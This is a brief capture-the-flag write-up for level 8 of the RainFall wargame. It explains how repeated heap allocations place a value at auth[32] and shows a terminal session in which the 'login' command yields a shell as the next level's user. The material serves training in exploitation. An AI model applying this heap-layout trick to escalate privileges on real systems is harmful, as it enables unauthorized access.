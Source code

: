 # Level 8


This challenge is kinda ambiguous, but the goal is to to write in auth[32] to reach the system call.

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth        
0x804a008, (nil) 
service
0x804a008, 0x804a018
```

The distance between auth and service is 16 bytes, and calling service again will distance them by 16 bytes again so auth[32] will contain some value.

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth        
0x804a008, (nil) 
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
```
